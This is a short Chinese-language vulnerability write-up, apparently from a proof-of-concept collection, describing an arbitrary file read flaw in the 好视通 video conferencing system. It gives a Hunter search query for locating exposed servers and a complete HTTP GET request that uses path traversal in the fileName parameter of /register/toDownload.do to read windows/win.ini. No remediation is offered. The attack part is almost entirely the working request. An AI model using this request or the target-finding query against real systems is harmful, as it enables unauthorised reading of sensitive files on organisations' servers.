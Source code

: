 # 好视通视频会议系统存在任意文件读取漏洞

# 一、漏洞简介
<font style="color:rgb(51, 51, 51);">好视通视频会议是由深圳市华视瑞通信息技术有限公司开发，其在国内率先推出了3G互联网视频会议，并成功应用于SAAS领域。好视通视频会议系统存在任意文件读取漏洞，攻击者可通过该漏洞获取敏感信息。</font>

# <font style="color:rgb(51, 51, 51);">二、影响版本</font>
+ 好视通视频会议系统

# 三、资产测绘
+ hunter`app.name="好视通 Server Management System"`
+ 特征![1700702275984-2d23da89-0111-4006-a5ce-874a3a2d9fd8.png](./img/SGtAAjB6Vw--6aV5/1700702275984-2d23da89-0111-4006-a5ce-874a3a2d9fd8-049119.png)

# 四、漏洞复现
```python
GET /register/toDownload.do?fileName=../../../../../../../../../../../../../../windows/win.ini HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 0
```

![1700702314990-271b30ee-3c76-46b3-8671-216dcfaf4416.png](./img/SGtAAjB6Vw--6aV5/1700702314990-271b30ee-3c76-46b3-8671-216dcfaf4416-185423.png)



> 更新: 2024-02-29 23:55:44  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/gsb2m9xvhebci1ix>